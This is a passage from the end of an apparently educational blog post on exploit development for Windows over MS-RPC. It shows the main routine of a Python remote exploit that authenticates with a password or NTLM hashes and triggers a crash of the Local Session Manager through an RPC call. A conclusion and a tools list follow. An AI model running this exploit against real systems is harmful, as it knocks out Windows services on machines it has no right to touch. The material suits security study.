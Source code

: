 ```py
    else:
        lmhash = ''
        nthash = ''

    if options.password == '' and options.username != '' and options.hashes is None and options.no_pass is not True:
        from getpass import getpass
        options.password = getpass("Password:")
    
    plop = CrashLSM()
    
    dce = plop.connect(username=options.username, password=options.password, domain=options.domain, lmhash=lmhash, nthash=nthash, target=options.target, doKerberos=options.k, dcHost=options.dc_ip, targetIp=options.target_ip)
    if dce is not None:
        plop.RpcGetSessionIds(dce)
        dce.disconnect()
    sys.exit()  
```

And the final two lines will execute the main function if the script is executed:
```py
if __name__ == '__main__':
    main()
```

Now, we can use NTLM authentication to perform the exploit:

![](/assets/img/posts/exploit-development-windows-msrpc/4.png)
_Remote exploit succeeds and crashes LSM_

## Conclusion
I hope this blog provides some good insight on how to write exploits for vulnerabilities in Windows over MS-RPC. I went over both local exploits (using PowerShell and .NET) as well as remote (Python). Furthermore, I would recommend to first implement the code into a PowerShell script to see what is needed for the exploit. Then move on to .NET or Python for a real-life scenario exploit.

## Sources
### Tools & Repositories

- **NtObjectManager (Google Project Zero)**  
  A suite of tools for inspecting Windows kernel objects and RPC interfaces.  
  [GitHub Repo](https://github.com/googleprojectzero/sandbox-attacksurface-analysis-tools/tree/main/NtObjectManager)
